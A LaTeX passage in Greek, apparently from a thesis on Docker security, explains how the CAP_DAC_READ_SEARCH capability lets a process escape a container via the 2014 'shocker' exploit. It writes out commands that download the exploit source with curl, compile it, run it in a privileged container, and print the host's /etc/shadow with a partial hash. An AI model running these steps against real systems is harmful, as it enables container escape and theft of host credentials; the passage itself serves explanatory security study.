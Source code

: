 \subsubsection{\texttt{\textlatin{CAP\_DAC\_READ\_SEARCH}}}

Πριν το \textlatin{Docker} 1.0.0 το \textlatin{CAP\_DAC\_READ\_SEARCH}
προστέθηκε στις προεπιλεγμένες δυνατότητες που παρέχονται σε ένα κοντέινερ.
Αλλά αυτή η ικανότητα επιτρέπει σε μια διαδικασία να ξεφύγει από ένα κοντέινερ
\cite{Docker-Shocker-Seclists}. Μια διαδικασία με
\textlatin{CAP\_DAC\_READ\_SEARCH} είναι είναι σε θέση να κάνει
\textlatin{bruteforce} το εσωτερικό ευρετήριο (\textlatin{internal index}) των
αρχείων εκτός του κοντέινερ. Ως απόδειξη της εκμετάλλευσης της συγκεκριμένης
επίθεσης, δημοσιοποιήθηκε ένα \textlatin{Proof of concept} \cite{Docker-Shocker}
\cite{Docker-Shocker-Analysis}. Αυτό το \textlatin{exploit} κυκλοφόρησε το 2014,
αλλά εξακολουθεί να λειτουργεί σε κοντέινερ με την ικανότητα
\textlatin{CAP\_DAC\_READ\_SEARCH}. \\

\texttt{\textlatin{(host)\$ curl -o /tmp/shocker.c http://stealth.openwall.net/xSports/shocker.c}}

\texttt{\textlatin{(host)\$ sed -i "s/\textbackslash /.dockerinit/\textbackslash /tmp\textbackslash /a.out/" shocker.c}}

\texttt{\textlatin{(host)\$ cc -Wall -std=c99 -O2 shocker.c -static}}

\texttt{\textlatin{(host)\$ docker run --rm -it --cap-add=CAP\_DAC\_READ\_SEARCH -v /tmp:/tmp busybox sh}}

\texttt{\textlatin{(cont)\# /tmp/a.out}}

\texttt{\textlatin{...}}

\texttt{\textlatin{[!] Win! /etc/shadow output follows:}}

\texttt{\textlatin{...}}

\texttt{\textlatin{admin:\$6\$VOSV5AVQ\$jHWxAVAUgl...:18142:0:99999:7:::}} \\

Το \textlatin{exploit} χρειάζεται ένα αρχείο με χειρισμό αρχείου στο κεντρικό
σύστημα για να πετύχει. Αντί για το προεπιλεγμένο
\texttt{\textlatin{/.dockerinit}} (το οποίο δεν δημιουργείται πλέον σε
νεότερες εκδόσεις του \textlatin{Docker}) χρησιμοποιούμε το ίδιο το αρχείο
\textlatin{exploit /tmp/a.out}. Αρχίζουμε ένα κοντέινερ με την ικανότητα
\texttt{\textlatin{CAP\_DAC\_READ\_SEARCH}} και εκτελούμε το \textlatin{exploit}.
Παρατηρούμε ότι εκτυπώνει το αρχείο κωδικού πρόσβασης του κεντρικού υπολογιστή
(π.χ. \textlatin{/etc/shadow}).

